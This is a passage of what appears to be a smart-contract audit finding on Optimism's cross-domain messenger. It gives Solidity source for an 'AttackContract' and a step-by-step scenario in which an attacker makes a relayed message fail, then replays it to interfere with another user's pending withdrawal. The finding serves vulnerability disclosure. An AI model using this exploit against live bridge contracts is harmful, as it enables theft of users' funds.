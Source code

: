 ```solidity
        external;
}

contract AttackContract {
    bool public donotRevert;
    bytes metaData;
    address optimismPortalAddress;

    constructor(address _optimismPortal) {
        optimismPortalAddress = _optimismPortal;
    }

    function enableRevert() public {
        donotRevert = true;
    }

    function setMetaData(WithdrawalTransaction memory _tx) public {
        metaData = abi.encodeWithSelector(
            IOptimismPortal.finalizeWithdrawalTransaction.selector,
            _tx
        );
    }

    function attack() public {
        if (!donotRevert) {
            revert();
        } else {
            optimismPortalAddress.call(metaData);
        }
    }
}

```
 - Bob sends a message from L2 to L1 by calling the function `sendMessage` with the following parameters. He intends to call the function `attack()` through relaying the message from L2 to L1.
   - `_target` = address of `AttackContract` on L1 
   - `_message` = abi.encodeWithSignature("attack()")
   - `_minGasLimit` = just big enough so that the transaction can be executed
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L212
 - On the L1 side, after challenge period and validation elapsed, the function `attack()` on contract `AttackContract` will be called during relaying the message.
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L324
 -  But, since `donotRevert` is `false` in the contract `AttackContract`, the relayed message will be unsuccessful. So, we will have `failedMessages[versionedHash] = true`. It means that it is possible again to retry relaying the message later.
https://github.com/sherlock-audit/2023-01-optimism/blob/main/optimism/packages/contracts-bedrock/contracts/universal/CrossDomainMessenger.sol#L331
```solidity
        if (!donotRevert) {
            revert();
        }
```
 - Then, Bob calls the function `enableRevert` to set `donotRevert` to `true`. So that if later the function `attack()` is called again, it will not revert.
```solidity
    function enableRevert() public {
        donotRevert = true;
    }
```
 - Then, Bob notices that Alice is withdrawing large amount of fund from L2 to L1. Her withdrawal transaction is proved but she is waiting for the challenge period to be finished to finalize it.